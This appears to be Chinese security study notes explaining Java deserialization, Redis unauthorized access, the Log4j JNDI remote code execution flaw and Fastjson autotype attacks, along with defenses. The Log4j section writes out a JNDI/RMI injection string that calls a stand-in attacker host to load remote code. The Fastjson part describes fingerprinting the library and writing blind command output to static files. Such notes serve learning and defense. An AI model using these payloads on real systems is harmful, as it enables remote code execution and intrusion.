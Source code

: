 Java反序列化漏洞是指恶意用户通过发送精心构造的序列化数据并触发其反序列化过程，从而执行未经授权的代码或操作。攻击者可以利用此漏洞来执行远程命令、绕过应用程序的安全检查、窃取敏感信息等攻击。

如果Java应用对用户输入（即不可信数据）做了反序列化处理，那么攻击者可以通过构造恶意输入，让反序列化产生非预期的类或对象，这个类或对象在产生过程中就有可能带来任意代码执行。

防御

    处理未信任的数据：开发人员应该避免反序列化未受信任的数据，例如来自不可靠来源的网络请求或从未知来源的文件读取的数据。
    使用安全的序列化库：一些第三方序列化库，如Jackson和Gson等，提供了更加安全的序列化和反序列化功能。开发人员可以使用这些库来避免Java反序列化漏洞。
    实现自定义反序列化方法：对于那些包含重要数据且需要进行反序列化的Java对象，可以实现自定义反序列化方法以控制反序列化过程。
    消除未使用的反序列化代码：如果没有必要进行反序列化操作，开发人员可以将其删除或注释掉，以减少潜在的攻击面。
    定期更新和维护应用程序：及时更新和修复应用程序中的漏洞和错误，并使用相关的安全工具来检测和防止Java反序列化漏洞

### redis未授权条件与修复

Redis 未授权访问是指某些 Redis 实例的访问控制没有得到正确配置，导致攻击者可以通过不需要认证的方式直接连接该实例并进行操作。

    确认是否存在未授权访问：通过检查日志和网络流量等信息，确认是否存在未授权访问的情况。
    修改 Redis 配置文件：在 redis.config 配置文件中，找到 bind 参数并将其设置为 Redis 监听的 IP 地址。此外，还需要设置 requirepass 参数，并设置一个强密码来保护 Redis 数据库。
    重新启动 Redis 服务：在修改完 Redis 配置文件后，需要重新启动 Redis 服务，以便使新的配置生效。
    禁用 Redis 远程访问：如果您的 Redis 服务只在本地使用，则应禁用 Redis 的远程访问，以降低攻击面和提高安全性。
    定期更新 Redis 和操作系统补丁：及时更新 Redis 和操作系统的安全补丁，以修复已知漏洞和提高系统安全性。

### log4j远程代码执行漏洞

原理：

Log4j 是Apache 的一个开源项目，是一款基于Java 的开源日志记录工具。该漏洞主要是由于日志在打印时当遇到`${`后，以:号作为分割，将表达式内容分割成两部分，前面一部分prefix，后面部分作为key，然后通过prefix去找对应的lookup，通过对应的lookup实例调用lookup方法，最后将key作为参数带入执行，引发远程代码执行漏洞。

具体操作：

在正常的log处理过程中对**${**这两个紧邻的字符做了检测，一旦匹配到类似于表达式结构的字符串就会触发替换机制，将表达式的内容替换为表达式解析后的内容，而不是表达式本身，从而导致攻击者构造符合要求的表达式供系统执行

以RMI为例，简单阐述下该漏洞的攻击原理：

1、攻击者首先发布一个RMI服务，此服务将绑定一个引用类型的RMI对象。在引用对象中指定一个远程的含有恶意代码的类。

2、攻击者再发布另一个恶意代码下载服务，此服务可以下载所有含有恶意代码的类。

3、攻击者利用Log4j2的漏洞注入RMI调用，例如： log.info(“登录成功”, “${jndi:rmi://rmi-service:1188/hackedclass}”);

4、调用RMI后将获取到引用类型的RMI远程对象，该对象将就加载恶意代码并执行。

### Fastjson反序列化漏洞

判断：

正常请求是get请求并且没有请求体，可以通过构造错误的POST请求，即可查看在返回包中是否有fastjson这个字符串来判断。

原理：

fastjson是阿里巴巴开发的一款将json字符串和java对象进行序列化和反序列化的开源json解析库。fastjson提供了autotype功能，在请求过程中，我们可以在请求包中通过修改@type的值，来反序列化为指定的类型，而fastjson在反序列化过程中会设置和获取类中的属性，如果类中存在恶意方法，就会导致代码执行等这类问题。

无回显怎么办：

1.一种是直接将命令执行结果写入到静态资源文件里，如html、js等，然后通过http访问就可以直接看到结果
